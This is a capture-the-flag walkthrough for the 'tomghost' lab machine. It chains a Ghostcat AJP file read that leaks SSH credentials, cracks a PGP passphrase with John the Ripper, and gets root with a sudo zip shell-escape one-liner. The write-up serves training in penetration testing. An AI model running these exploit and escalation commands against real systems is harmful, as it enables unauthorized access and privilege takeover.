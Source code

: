 # tomghost writeup

Start with a nmap scan: 

<code>

    Nmap scan report for 10.10.252.31
    Host is up (0.065s latency).
    Not shown: 996 closed tcp ports (conn-refused)
    PORT     STATE SERVICE    VERSION
    22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
    |   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
    |_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
    53/tcp   open  tcpwrapped
    8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
    | ajp-methods: 
    |_  Supported methods: GET HEAD POST OPTIONS
    8080/tcp open  http       Apache Tomcat 9.0.30
    |_http-favicon: Apache Tomcat
    |_http-title: Apache Tomcat/9.0.30
    |_http-open-proxy: Proxy might be redirecting requests
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

</code>

Now we can navigate to http://10.10.252.31:8080/ to explore the web page. This is just a default tomcat page. 

![web](/tomghost/images/web.png)

Searching online, I found a Tomcat 9.0.30 vulnerability named **ghostcat**, and I try to exploit it using this tool (https://github.com/00theway/Ghostcat-CNVD-2020-10487) to read protected file on the server. 

``python3 ajpShooter.py http://10.10.252.31:8080/ 8009 /WEB-INF/web.xml read``

<code>

    <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
    version="4.0"
    metadata-complete="true">

    <display-name>Welcome to Tomcat</display-name>
    <description>
        Welcome to GhostCat
            skyfuck:8730281lkjlkjdqlksalks
    </description>

</web-app>

</code>

As result, I've obtained an interesting secret key and user pair that I've tried to use for logging into the machine with ssh. 

``ssh skyfuck@10.10.252.31``

![ssh](/tomghost/images/ssh.png)

Now you can find the flag user.txt inside */home/merlin* directory. 

## Privilege escalation

Let's examine files in *skyfuck* home. 

![credential](/tomghost/images/credential.png)

*Pretty Good Privacy (PGP) is an encryption system used for both sending encrypted emails and encrypting sensitive files. Since its invention back in 1991, PGP has become the de facto standard for email security*

So, I've tried to decrypt .pgp file using the key in the same directory, but it unfortunately needs a passphrase. To get them, I've copied these files in my local machine and I've used JohnTheRipper. 

<code>

    /usr/sbin/gpg2john tryhackme.asc > tryhackme.hash

    john --wordlist=/usr/share/wordlists/rockyou.txt tryhackme.hash

</code>

After that, you'll obtain the previous passphrase and you'll be able to decrypt file on remote machine. 

These encrypted files contains credentials for a ssh connection as *merlin*. 

After connecting, I ran the command ``sudo -l`` to check for any commands that the user can run with root privileges, and I got the following result:

![sudo-l](/tomghost/images/sudo-l.png)

Then, I've used this exploit to obtain root privileges --> https://gtfobins.github.io/gtfobins/zip/

<code>

    TF=$(mktemp -u)
    sudo zip $TF /etc/hosts -T -TT 'sh #'

</code>

Congratulations! You are root and now you are able to read root.txt flag. 




